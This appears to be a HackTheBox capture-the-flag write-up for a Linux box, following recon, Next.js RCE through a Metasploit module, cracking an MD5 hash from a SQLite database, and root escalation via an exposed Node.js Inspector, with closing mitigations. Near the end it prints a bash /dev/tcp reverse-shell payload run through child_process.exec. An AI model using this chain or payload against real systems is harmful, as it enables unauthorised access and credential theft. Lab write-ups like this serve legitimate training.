# Reactor — HackTheBox Writeup

**Difficulty:** Easy
**OS:** Linux
**Category:** Web, Privilege Escalation

---

## Setup — /etc/hosts

Before starting, the target IP was mapped to a custom hostname to
ensure proper virtual host resolution throughout the engagement:



---

## Reconnaissance — Nmap

The first step was a full TCP port scan across all 65535 ports:

```bash
nmap reactor.lab -p- --min-rate 1000 -sV -sC o ports.txt
```



The initial scan returned only port **22 (SSH)**. Since the lab
description referenced an additional service, a SYN scan was performed
for a more complete result:

```bash
sudo nmap reactor.lab -sS -p- --min-rate 500 -o portx.txt
```



Port **3000** was discovered. A targeted service version scan confirmed
an HTTP service running on that port:

```bash
nmap reactor.lab -p 3000 -sC -sV
```



Key response headers:

X-Powered-By: Next.js  
x-nextjs-cache: HIT  
x-nextjs-prerender: 1

**Attack surface summary:** SSH (22) and a Next.js web application (3000).

---

## Web Application Analysis

Accessing `http://reactor.lab:3000` in the browser revealed an internal
management interface:



Key information gathered:

- **Application:** CORE MONITORING SYSTEM v3.2.1
- **Organisation:** REACTORWATCH™ — Nuclear Dynamics Corp. | Site-7
- **Classification:** RESTRICTED



The application exposed system logs and three usernames with their
respective roles within the organisation.

Intercepting traffic with Burp Suite confirmed the **Next.js** framework.
The exact version could not be determined through enumeration alone.



---

## Exploitation — CVE-2025-55182

Given the Next.js framework, a search for known exploits was performed
using Metasploit:

```bash
search exploit nextjs
```



A module for **CVE-2025-55182** was identified — an
unauthenticated Remote Code Execution vulnerability affecting React
Server Components in Next.js.

The module was configured with the target parameters:



RHOSTS → reactor.lab  
LHOST → tun0 (HTB VPN interface)  
RPORT → 3000



Executing the module:

```bash
run
```



A shell was obtained as user **node**. An interactive bash session was
immediately spawned for better usability:

```bash
shell
```

> The exact framework version could not be determined during
> enumeration. Successful exploitation confirms the target was running
> a vulnerable release within the affected version range.

---

## Post-Exploitation — Database Enumeration

Listing the current directory revealed a SQLite database file: "reactor.db"

SQLite databases are commonly used by self-hosted web applications to store local configuration and credentials, making them a valuable source of post-exploitation information.

```bash
ls -la
```

```
file reactor.db
```

```
SELECT sql FROM sqlite_master;
```

The file was confirmed as a **SQLite 3.x** database. Connecting to it
and dumping the full schema revealed sensitive information:



The `users` table contained the following columns:
- `username`
- `password_hash`
- `role`
- `email`

```
SELECT username, password_hash, role, email FROM users;
```



Password hashes were extracted for two accounts: **admin** and
**engineer**.

---

## Password Cracking — John the Ripper

The extracted hashes were 32 hexadecimal characters long, matching the typical format of an unsalted MD5 digest. Based on this observation, the hashes were attacked using John the Ripper in Raw-MD5 mode:

```bash
john --format=Raw-MD5 --wordlist=/usr/share/wordlists/rockyou.txt hashengineer.txt
```



The **engineer** account password was successfully cracked:

engineer : reactor1

The admin hash was not cracked within a reasonable timeframe.
Proceeding with the engineer credentials only.

---

## Privilege escalation — engineer

With valid credentials, switching to the engineer user:

```bash
su engineer
# Password: reactor1
cd ~
```



**User flag captured.**

---

## Privilege Escalation to root — Node.js Inspector Abuse

### SUID Enumeration

As engineer, the first step was checking for unusual SUID binaries:

```bash
find / -perm -4000 -type f 2>/dev/null
```

Only standard Ubuntu binaries were returned (`passwd`, `sudo`, `mount`, `su`, etc.) — nothing exploitable.

### Process Enumeration

As the SUID enumeration returned only default Ubuntu binaries, attention shifted to privileged services and long-running processes, looking for custom applications or insecure configurations.

```bash
ps -efww
```



Listing all running processes revealed a suspicious entry:

root 1423 /usr/bin/node --inspect=127.0.0.1:9229 /opt/uptime-monitor/worker.js

Two critical observations:
1. The process runs as **root**
2. The `--inspect` flag enables the **Node.js Inspector** on port 9229

### Service Analysis

To better understand how this process was managed:

```bash
systemctl list-units --type=service --state=running
cat /etc/systemd/system/uptime-monitor.service
```





The service configuration confirmed:

```ini
ExecStart=/usr/bin/node --inspect=127.0.0.1:9229 /opt/uptime-monitor/worker.js
User=root
```

### Confirming the Node Inspector

Querying the Inspector API directly:

```bash
curl http://127.0.0.1:9229/json/version
```



```
curl http://127.0.0.1:9229/json
```



Response confirmed **Node.js v20.20.2** with an active Chrome DevTools
Protocol (CDP) session:

```json
"webSocketDebuggerUrl": "ws://127.0.0.1:9229/<uuid>"
```

---

## Understanding the Attack Vector

The `--inspect` flag enables the **Node.js Inspector** — a debugging
interface based on the Chrome DevTools Protocol (CDP), designed
exclusively for development environments.

Since the debugged process runs as **root**, any JavaScript evaluated
through the Inspector session inherits root privileges:

Chrome DevTools  
│  
▼  
Node Inspector (port 9229)  
│  
▼  
Node.js process  
│  
▼  
Executing as root

### Why Port Forwarding Was Necessary

The Inspector was bound to `127.0.0.1:9229`, making it accessible only
from within the target machine. SSH Local Port Forwarding was used to
expose it to the attacker machine:

```bash
ssh -L 9229:127.0.0.1:9229 engineer@reactor.lab -N
```



This creates the following tunnel:

Attacker (localhost:9229)  
│  
SSH Tunnel  
│  
Target (127.0.0.1:9229)  
│  
Node Inspector  
│  
root process

---

## Exploiting the Node Inspector — Root Shell

With the tunnel active, Chromium was used to connect to the Inspector:

chrome://inspect  
Configure → localhost:9229  
Open dedicated DevTools for Node

In the DevTools console, arbitrary JavaScript execution was confirmed:

```javascript
require('child_process').exec('whoami', (err, stdout) => console.log(stdout))
```



Output: `root`


A listener was opened on the attacker machine:

```bash
nc -lvnp 9999
```

The following payload was executed in the DevTools console to obtain a reverse shell:

```javascript
require('child_process').exec('bash -c "bash -i >& /dev/tcp/10.10.15.2/9999 0>&1"')
```



Root shell received. The flag was retrieved:
```
cd /root
```
**Root flag captured.**

---

## Vulnerability Impact & Mitigations

The Node.js Inspector is a development tool that provides extensive
debugging capabilities, including arbitrary JavaScript evaluation within
the process context.

When left enabled on a privileged process in a production environment,
it becomes a privilege escalation vector for any user with local access
to the machine — regardless of their own system privileges.

**Recommended mitigations:**
- Never enable `--inspect` on production services
- If debugging is required, restrict access through additional network
  isolation or authentication mechanisms
- Run application services with the minimum required privileges
  (principle of least privilege)

> **Note:** the vulnerability is not in Node.js itself, but in the
> misconfiguration of exposing the Inspector on a root-owned process.
> The Inspector was designed exclusively for development environments
> and should never remain active in production deployments.

---

## Attack Chain Summary

| Step | Description                                                 |
| ---- | ----------------------------------------------------------- |
| 01   | Full TCP enumeration identified an HTTP service on TCP/3000 |
| 02   | HTTP fingerprinting revealed a Next.js application          |
| 03   | CVE-2025-55182 provided unauthenticated RCE                 |
| 04   | Initial shell obtained as `node`                            |
| 05   | SQLite database inspected                                   |
| 06   | MD5 hashes extracted from `reactor.db`                      |
| 07   | `engineer` password recovered using John the Ripper         |
| 08   | Switched to `engineer` via `su`                             |
| 09   | Local enumeration identified a root-owned Node Inspector    |
| 10   | Inspector session exposed through SSH local port forwarding |
| 11   | JavaScript executed inside the root process                 |
| 12 | Root shell obtained |

---

> Made by [Noname](https://github.com/NonamesecX) | For educational purposes only

